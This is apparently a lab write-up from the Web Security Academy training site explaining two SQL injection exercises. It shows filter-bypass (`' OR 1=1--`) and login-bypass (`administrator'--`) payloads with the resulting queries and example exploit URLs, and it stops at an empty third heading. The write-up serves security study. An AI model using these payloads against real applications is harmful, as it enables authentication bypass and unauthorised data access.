 #Red 
## **SQL Injection 1**
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

---
#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

---
#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.

---
### Example of Exploit
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```
- Explanation: Injects `Gift' OR 1=1--` into the `category` parameter, making the query always true and returning all products.

---

## **SQL Injection 2**

### Analysis
#### Original Query:
```sql
SELECT firstname FROM users WHERE username='admin' AND password='admin'
```
- **Description:** Retrieves the `firstname` of the user with `username='admin'` and `password='admin'`.

---
#### Injected Query 1:
```sql
SELECT firstname FROM users WHERE username='' AND password='admin'
```
- **Explanation:** Checks for a user with an empty username. Likely returns no results.

---
#### Injected Query 2:
```sql
SELECT firstname FROM users WHERE username='admin'--' AND password='admin'
```
- **Explanation:** The `--` sequence comments out the rest of the query, effectively checking only for `username='admin'`. Bypasses the password check.

---
#### Injected Query 3:
```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'
```
- **Explanation:** Similar to Injected Query 2 but uses 'administrator' as the username. If 'administrator' is valid, it bypasses the password check and returns the `firstname`

---
### Example of Exploit

- **Vulnerable URL:**
```
https://example.com/login?username=administrator'--&password=admin
```
- **Explanation:** The payload `administrator'--` in the username parameter bypasses the password check, returning the `firstname` of 'administrator'.

---

## **SQL Injection 3**
### Analysis
